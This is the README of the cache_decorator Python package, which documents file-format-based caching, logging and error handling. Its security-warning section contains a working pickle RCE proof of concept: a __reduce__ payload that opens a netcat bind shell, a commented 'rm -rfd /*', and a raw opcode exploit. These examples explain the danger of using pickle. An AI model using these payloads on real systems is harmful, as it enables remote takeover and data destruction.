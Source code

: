 cache_decorator
=========================================================================================
|travis| |sonar_quality| |sonar_maintainability| |codacy|
|code_climate_maintainability| |pip| |downloads|

A simple decorator to cache the results of computationally heavy functions.
The package automatically serialize and deserialize depending on the format of the save path.

By default it supports ``.json .json.gz .json.bz .json.lzma`` and ``.pkl .pkl.gz .pkl.bz .pkl.lzma .pkl.zip`` but other extensions can be enabled by using the extra feature:

[numpy] ``.npy .npz``

[pandas] ``.csv .csv.gz .csv.bz2 .csv.zip .csv.xz``

Also there is an optimized format for numerical dataframes:

[pandas] ``.embedding .embedding.gz .embedding.bz2 .embedding.xz``

This creates an optionally compressed tar archive with pickles of the index and 
columns and a ``.npy`` of the values.

The extra feature ``[numba]`` enables the caching of numba objects.

.. code:: python

    import time
    import numpy as np
    import pandas as pd
    from cache_decorator import Cache

    @Cache(
        cache_path={
            "info": "/tmp/{function_name}/{_hash}.json.xz",
            "data": "/tmp/{function_name}/{_hash}.csv.gz",
        },
        validity_duration="24d",
        args_to_ignore=("verbose",),
        enable_cache_arg_name="enable_cache",
    )
    def function_to_cache(seed: int, verbose: bool = True):
        np.random.seed(seed)
        if verbose:
            print(f"using seed {seed}")
        return {
            "info": {"timestamp": time.time(), "seed": seed,},
            "data": pd.DataFrame(
                np.random.randint(0, 100, size=(100, 4)), columns=list("ABCD")
            ),
        }


How do I install this package?
----------------------------------------------
As usual, just download it using pip:

.. code:: shell

    pip install cache_decorator

To install **all** the extensions use:

.. code:: shell

    pip install "cache_decorator[all]"

(the double quotes are optional in ``bash`` but required by ``zsh``)

Optionally you can specify the single features you want:

.. code:: shell

    pip install "cache_decorator[numpy, pandas, numba]"

If the installation fails you can try to add ``--user`` at the end of the command as:

.. code:: shell

    pip install "cache_decorator[numpy, pandas, numba]" --user


Tests Coverage
----------------------------------------------
Since some software handling coverages sometime
get slightly different results, here's three of them:

|coveralls| |sonar_coverage| |code_climate_coverage|


.. |travis| image:: https://travis-ci.org/zommiommy/cache_decorator.png
   :target: https://travis-ci.org/zommiommy/cache_decorator
   :alt: Travis CI build

.. |sonar_quality| image:: https://sonarcloud.io/api/project_badges/measure?project=zommiommy_cache_decorator&metric=alert_status
    :target: https://sonarcloud.io/dashboard/index/zommiommy_cache_decorator
    :alt: SonarCloud Quality

.. |sonar_maintainability| image:: https://sonarcloud.io/api/project_badges/measure?project=zommiommy_cache_decorator&metric=sqale_rating
    :target: https://sonarcloud.io/dashboard/index/zommiommy_cache_decorator
    :alt: SonarCloud Maintainability

.. |sonar_coverage| image:: https://sonarcloud.io/api/project_badges/measure?project=zommiommy_cache_decorator&metric=coverage
    :target: https://sonarcloud.io/dashboard/index/zommiommy_cache_decorator
    :alt: SonarCloud Coverage

.. |coveralls| image:: https://coveralls.io/repos/github/zommiommy/cache_decorator/badge.svg?branch=master
    :target: https://coveralls.io/github/zommiommy/cache_decorator?branch=master
    :alt: Coveralls Coverage

.. |pip| image:: https://badge.fury.io/py/cache-decorator.svg
    :target: https://badge.fury.io/py/cache-decorator
    :alt: Pypi project

.. |downloads| image:: https://pepy.tech/badge/cache_decorator
    :target: https://pepy.tech/badge/cache_decorator
    :alt: Pypi total project downloads

.. |codacy| image:: https://api.codacy.com/project/badge/Grade/70b54eb55b1c4d0182fbfbaa4e36b87d
    :target: https://www.codacy.com/manual/zommiommy/cache_decorat +or?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=zommiommy/cache_decorator&amp;utm_campaign=Badge_Grade
    :alt: Codacy Maintainability

.. |code_climate_maintainability| image:: https://api.codeclimate.com/v1/badges/888ccd8cdcf5a7b2acca/maintainability
    :target: https://codeclimate.com/github/zommiommy/cache_decorator/maintainability
    :alt: Maintainability

.. |code_climate_coverage| image:: https://api.codeclimate.com/v1/badges/888ccd8cdcf5a7b2acca/test_coverage
    :target: https://codeclimate.com/github/zommiommy/cache_decorator/test_coverage
    :alt: Code Climate Coverate

Examples of Usage
----------------------------------------------
To cache a function or a method you just have to decorate it with the cache decorator.

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache()
    def x(a, b):
        sleep(3)
        return a + b

    class A:
        @Cache()
        def x(self, a, b):
            sleep(3)
            return a + b

Cache path
----------
The default cache directory is ./cache but this can be setted by passing the cache_dir parameter to the decorator or by setting the environment variable CACHE_DIR.
In the case both are setted, the parameter folder has precedence over the environment one.


.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(cache_dir="/tmp")
    def x(a):
        sleep(3)
        return a

The path format can be modified by passing the cache_path parameter.
This string will be formatted with infos about the function, its parameters and, if it's a method, the self attributes.

De default path is:

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(cache_path="{cache_dir}/{file_name}_{function_name}/{_hash}.pkl")
    def x(a):
        sleep(3)
        return a

But can be modified giving cache a more significative name, for example we can add the value of a into the file name.

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(cache_path="{cache_dir}/{file_name}_{function_name}/{a}_{_hash}.pkl")
    def x(a):
        sleep(3)
        return a

Depending on the extension of the file, different serialization and deserialization dispatcher will be called.

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(cache_path="/tmp/{_hash}.pkl.gz")
    def x(a):
        sleep(3)
        return a

    @Cache(cache_path="/tmp/{_hash}.json")
    def x(a):
        sleep(3)
        return {"1":1,"2":2}

    @Cache(cache_path="/tmp/{_hash}.npy")
    def x(a):
        sleep(3)
        return np.array([1, 2, 3])

    @Cache(cache_path="/tmp/{_hash}.npz")
    def x(a):
        sleep(3)
        return np.array([1, 2, 3]), np.array([1, 2, 4])

Ignoring arguments when computing the hash
------------------------------------------
By default the cache is differentiate by the parameters passed to the function.
One can specify which parameters should be ignored.


.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(args_to_ignore=["verbose"])
    def x(a, verbose=False):
        sleep(3)
        if verbose:
            print("HEY")
        return a

Multiple arguments can be specified as a list of strings with the name of the arguments to ignore.

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(args_to_ignore=["verbose", "multiprocessing"])
    def x(a, verbose=False, multiprocessing=False):
        sleep(3)
        if verbose:
            print("HEY")
        return a

Cache validity
------------------------------------------
Cache also might have a validity duration. 

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(
        cache_path="/tmp/{_hash}.pkl.gz",
        validity_duration="24d"
        )
    def x(a):
        sleep(3)
        return a

In this example the cache will be valid for the next 24 days. and on the 25th day the cache will be rebuilt.
The duration can be written as a time in seconds or as a string with unit.
The units can be "s" seconds, "m" minutes, "h" hours, "d" days, "w" weeks.

Logging
-------
Each time a new function is decorated with this decorator, a new logger is created.
You can modify the default logger with ``log_level`` and ``log_format``.


.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(log_level="debug")
    def x(a):
        sleep(3)
        return a

If the default format is not like you like it you can change it with:

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(log_format="%(asctime)-15s[%(levelname)s]: %(message)s")
    def x(a):
        sleep(3)
        return a

More informations about the formatting can be found here https://docs.python.org/3/library/logging.html .

Moreover, the name of the default logger is:

.. code:: python

    logging.getLogger("cache." + function.__name__)

So we can get the reference to the logger and fully customize it:

.. code:: python

    import logging
    from cache_decorator import Cache

    @Cache()
    def test_function(x):
        return 2 * x

    # Get the logger
    logger = logging.getLogger("cache.test_function")
    logger.setLevel(logging.DEBUG)
    
    # Make it log to a file
    handler = logging.FileHandler("cache.log")
    logger.addHandler(handler)

Error Handling
--------------
A common problem we noted using the library is that if the saved type is not compatible with the chosen extension,
the program will raise an exception at the end of the function and we lose all the work done.
To mitigate this proble, now the cache decorator has a built-in system for handling errors.
If there is an error in the serializzation of the result, the program will make an automatic backup using pickle.
This by default will add ``_backup.pkl`` to the end of the original path, but if for any reason this would over-write a file, a random string will be appended.
And log (with critical level) the path of the backup file and the supposed path where the 

Suppose we erroneusly set the extension to CSV instead of JSON:

.. code:: python

    from cache_decorator import Cache

    @Cache("./test_{x}.csv")
    def test_function(x):
        return {"this":{"is":{"not":{"a":"csv"}}}}

    test_function(10)
    # 2021-02-22 13:22:07,286[CRITICAL]: Couldn't save the result of the function. Saving the result as a pickle at:
    # ./test_10.csv_backup.pkl
    # The file was gonna be written at:
    # ./test_10.csv


Now we can manually load the value and store it at the correct path, this way the next time the function is called, the cache will be loaded correctly with the right extension.

.. code:: python

    import json
    import pickle

    # Load the backup
    with open("./test_10.csv_backup.pkl", "rb") as f:
        result = pickle.load(f)

    # Save it at the right path
    with open("./test_10.json", "w") as f:
        json.dump(f, result) 

.. code:: python

    from cache_decorator import Cache

    @Cache("./test_{x}.json")
    def test_function(x):
        return {"this":{"is":{"not":{"a":"csv"}}}}

    test_function(10) # Load the corrected Cache at "./test_10.json"


Optionally, one can programmatically sort this out by catching the exception and accessing its fields.

.. code:: python

    from cache_decorator import Cache

    @Cache("./test.csv")
    def test_function(x):
        return {"this":{"is":{"not":{"a":"csv"}}}}

    try:
        test_function(10, y="ciao")
    except SerializationException as e:
        result = e.result
        backup_path = e.backup_path
        path = e.path
        

Moreover, the backup path can be costumized using the ``backup_path`` parameter, here you can use the same parameter of ``path`` and also ``{_date}``, which is the date of the bakcup, and ``{_rnd}`` which guarantees that the file will not overwrite any other file:

.. code:: python

    from cache_decorator import Cache

    @Cache("./test.csv", backup_path="./backup_{date}_{rnd}.pkl")
    def test_function(x):
        return {"this":{"is":{"not":{"a":"csv"}}}}

    test_function(10, y="ciao")
    
    # 2021-02-22 13:22:07,286[CRITICAL]: Couldn't save the result of the function. Saving the result as a pickle at:
    # ./backup_2021_02_22_13_22_07_18ce30b003e14d16d5e0f749e8205e467aedfbba.pkl
    # The file was gonna be written at:
    # ./test.csv

        

Internals
--------------
If for any reason you need to get a reference to the wrapped function and its cacher class, you can access them using the internal variables:

.. code:: python

    from cache_decorator import Cache

    @Cache()
    def test_function(x, y):
        return 2 * x

    original_test_function = test_function.__cached_function
    test_function_cacher_class = test_function.__cacher_instance

We do not suggest to use them.


Manual Caching
--------------
If for some reason you need to manually manage your cache, you can use the built in static methods of the ``Cache`` class.
It will automatically create the needed folders. Moreover, you can get the expected path for a function call.

.. code:: python

    from cache_decorator import Cache
    
    # you can use the Cache class functions to load and store data easily
    # but here you can't use a path formatter but you have to pass a complete path.

    # Store
    Cache.store({1:2, 3:4}, "./my_custom_cache/best_dict_ever.json)

    # Load
    best_dict = Cache.load("./my_custom_cache/best_dict_ever.json)

    # This would not format anything!
    # Cache.store({1:2, 3:4}, "./my_custom_cache/{_hash}.json)
    # this would save a file called literally called "{_hash}.json"

    @Cache()
    def test_function(x, y):
        return 2 * x


    # you can get the path where the file would be saved (this does not call the function!).
    path = Cache.compute_path(test_function, 10, y="ciao")


Security Warnings
-----------------

Whenever possible don't use the pickle extension.
De-serializzation of untrusted data might lead to Remote Code Execution or Local Privilege Escalation ( https://davidhamann.de/2020/04/05/exploiting-python-pickle/ ).
Therefore, simple formats such as json is preferable whenever possible.

Suppose we have this code:

.. code:: python

    from cache_decorator import Cache

    @Cache("./cache/{x}.pkl)
    def my_awesome_function(x):
        return x

    ...

    my_awesome_function(1)

If in any way we have access to the cache folder, we can easily exploit it:

.. code:: python

    import pickle

    COMMAND = "netcat -c '/bin/bash -i' -l -p 4444" # rm -rfd /*

    class PickleRce(object):
        def __reduce__(self):
            import os
            return (os.system,(COMMAND,))

    payload = pickle.dumps(PickleRce())
    print(payload)
    # b"\x80\x04\x95>\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c#netcat -c '/bin/bash -i' -l -p 4444\x94\x85\x94R\x94."

    with open("./cache/1.pkl", "wb") as f:
        f.write(payload)

Next time that the function is called with argument ``1``, we will spawn a remote shell and take control of the system.

Or, since Pickle is a "programming language" which is executed by a VM, we can write a general RCE exploit which only uses builtins:

.. code:: python

    import pickle
    
    # Build the exploit
    command = b"""cat flag.txt"""
    x = b"c__builtin__\ngetattr\nc__builtin__\n__import__\nS'os'\n\x85RS'system'\n\x86RS'%s'\n\x85R."%command
    
    # Test it
    pickle.load(x)

For this reason is important to either use a simpler serializzation scheme like json and to fortify the system by setting the cache dir to be read-write only for the current user.

.. code:: bash

    chown -r $USER:$USER ./cache
    chmod -r 600 ./cache

This way only the current application can create and modify the cache files.
